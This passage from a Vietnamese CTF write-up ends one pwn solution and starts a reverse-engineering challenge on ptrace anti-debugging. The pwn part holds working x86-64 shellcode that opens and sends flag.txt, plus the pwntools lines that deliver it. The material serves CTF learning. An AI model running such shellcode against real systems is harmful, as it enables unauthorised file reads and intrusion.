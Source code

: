 shellcode = asm(f"""
        xor  rdx, rdx
        push rdx
        mov  rsi, {u64(b'flag.txt')}
        push rsi
        push rsp
        pop  rsi
        xor  rdi, rdi
        sub  rdi, 100
        mov  rax, 0x101
        syscall

        mov  rcx, 0x64
        mov  esi, eax
        xor  rdi, rdi
        inc  edi
        mov  al, 0x28
        syscall

        mov  al, 0x3c
        syscall

        """)
#shellcode = shellcraft.openat('AT_FDCWD', 'flag.txt', 'O_RDONLY')
#shellcode += shellcraft.sendfile(1, 'rax', 0, 64)
#shellcode += shellcraft.exit()
#payload = asm(shellcode)

p.sendlineafter(b'[*] What do you want to do? ',b'9')
input()
p.send(shellcode)


p.interactive()
```

-------

10 . AnTi Flag (rev)
------

1 bài ta sẽ được học về ptrace 




- nhìn vào source khá đơn giản , nếu if được thực thi , nó sẽ trả về well done , không thì in chuỗi No flag for you ra
![image](https://hackmd.io/_uploads/HJ3AEEsbkl.png)


- khi ta chạy thử thì nó sẽ như thế này 

![image](https://hackmd.io/_uploads/BkArHEs-Jl.png)

chạy với gdb thì nó sẽ in khác với chạy bth

![image](https://hackmd.io/_uploads/rJs6SEjZkl.png)


- có thể hiểu là lệnh if đó sẽ check xem ta có đang debug không , và vì thằng gdb được phát triển dựa trên ptrace nên nó sẽ in ra như vậy



```